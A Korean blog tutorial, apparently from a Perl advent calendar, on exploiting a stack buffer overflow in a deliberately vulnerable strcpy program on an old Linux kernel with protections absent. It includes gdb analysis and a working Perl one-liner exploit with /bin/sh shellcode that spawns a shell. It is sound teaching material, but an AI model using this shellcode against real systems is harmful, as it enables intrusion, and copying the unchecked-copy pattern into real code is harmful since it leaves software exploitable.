 저자
@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생

시작하며
--------
2014년 들어서 리눅스 환경에서 굵직한 취약점이 발표되고있습니다.

예를들면 
bash shell shock
open ssl heart bleed 
etc...

물론 이번 달력에서 다룰 내용은 위에 나열한 취약점과는 거리가있습니다만...
그래도 단지 재미를 위해 그리고 리눅스 환경에서의 해킹을 조금이라도 맛 보기(?)위해 메모리 버그의 일종인 bof(BufferOverflow) 즉 버퍼오버플로우라는 기술을 이용해서 리눅스 해킹을 해보도록하겠습니다.

예제

우선 공격할 리눅스 정보입니다.

$uname -a
Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

버전이 매우 낮다는걸 알수있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신 리눅스 커널은 해커들의 공격을 막기위해 많은 보호기법을 도입하고있는데 
그 예로는 
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록하는 Nx-bit
메모리상의 공격을 방어하기위해 스택 주소를 랜덤하게 바꾸는 ASLR
상위주소를 \x00 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 Ascii-armor
buffer와 return address에 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 Canary
Canary에 대해 더 설명을 하자면 해킹에 성공하기위해서는 eip를 제어해야하는데 eip를 제어할려면 return address를 덮어 씌어야합니다.
하지만 canary라는 보호기법이 return address를 모니터링하면서 값이 변하면 프로그램을 종료시켜 버리기때문에 한번에 공격할수있는 확률이 줄어들고 난이도도 올라가게됩니다.
 

이처럼 다양한 보호기법이 적용되면서 공격이 힘들지만 우회하는 방법이있습니다.
ROP(Return Oriented Programming)라는 공격기법입니다. 
이런 무지막지한 보호기법을 우회하려다 보니 매우 복잡하고 어렵다보니 이 달력에서는 설명하지않겠습니다.
rop에 관한 자세한 내용은 아래 링크를 참조해주세요.
http://teamcrak.tistory.com/332

그럼 지금부터 메모리 보호기법이 적용되어있지않은 리눅스 커널을 대상으로 간단한 해킹을 해보도록 하겠습니다.

공격할 프로그램입니다.
//vuln.c
//gcc -o vuln vuln.c
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는 말이 있을정도로 
프로그램의 구조를 완벽하게 이해하고 있어야합니다.
그렇다면 이제 분석을 하기위해 gdb를 실행 해봅시다.
$gdb vuln 

(gdb) disass main
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %esp,%ebp
0x80483fb <main+3>:	sub    $0x100,%esp
0x8048401 <main+9>:	mov    0xc(%ebp),%eax
0x8048404 <main+12>:	add    $0x4,%eax
0x8048407 <main+15>:	mov    (%eax),%edx
0x8048409 <main+17>:	push   %edx
0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
0x8048410 <main+24>:	push   %eax
0x8048411 <main+25>:	call   0x8048340 <strcpy>
0x8048416 <main+30>:	add    $0x8,%esp
0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
0x804841f <main+39>:	push   %eax
0x8048420 <main+40>:	push   $0x8048480
0x8048425 <main+45>:	call   0x8048330 <printf>
0x804842a <main+50>:	add    $0x8,%esp
0x804842d <main+53>:	leave  
0x804842e <main+54>:	ret    
0x804842f <main+55>:	nop    
End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드이지만 우리가 봐야 할 부분은 strcpy함수를 call하는부분 입니다.
0x8048411 <main+25>:	call   0x8048340 <strcpy> 여기만 주의 깊게 봐주면 됩니다!!!!

그렇다면 보기전에 간단하게 우선 strcpy함수를 알아봅시다.
strcpy(buffer, argv[1]);
argv[1]의 값을 buffer에 복사합니다.
네 끝이에요 한 마디로 
eax에는 buffer의 값 256byte
edx에는 argv[1]의 값이 들어가있습니다.

어셈블리 코드를 보면 edx(argv[1]) 값을 push 그후 eax(buffer)를 스택에push
strcpy(%eax,%edx); 이런식으로 들어가있는겁니다.
근데 과연 생각한게 맞는지 초호화 디버깅툴인 gdb를 사용해서 확인해보도록 하겠습니다.
디버깅을 할때 항상 그랬던 것 처럼 break point를 걸어줍니다.

(gdb) b *main+25
(gdb) r 1
Starting program: /home/vuln 1

Breakpoint 1, 0x8048411 in main ()
(gdb) x/s $edx
0xbffffca0:	 "1"

main+25에 break point를 걸었고 그후 인자를 1을 주고 실행해본결과 edx에는 역시 예상했던데로 1이라는 값이 들어가있습니다.
이제 0xffffff00이 뭘 뜻하는건지 알아야겠습니다. 16진수이므로 사람이 알아볼수있게 10진수로 바꾸면 256byte라는 값이나오네요.
256byte를 buffer가 사용하고있으니 256byte +4는 ret주소입니다.

$./vuln `perl -e 'print"A"x260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

perl 스크립트를 사용해서 공격해봤습니다..(펄 달력인데 이제서야 펄이나오네요..ㅜㅜ)
공격 해보니 역시 ret값을 덮어쓰니 오류를 출력하면서 프로그램이 종료되네요.
자 이제 exploit script만 작성해주면 끝입니다.


$./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
1?h//shh/bin??°
                ?8
bash$
네 공격에 성공했습니다 ;)
이제 exploit을 살펴보자면 "\x90"은 nop입니다. 그냥 아무것도 안하고 다음 명령어로 넘어갑니다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 이 부분은 쉘코드입니다. 간단하게 shell을 출력해주는 기계어 집합입니다.
"\x38\xf9\xff\xbf" 이 부분은 스택의 값인데요. gdb를 통해서 본 스택 주소를 넣어주었습니다.

마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!
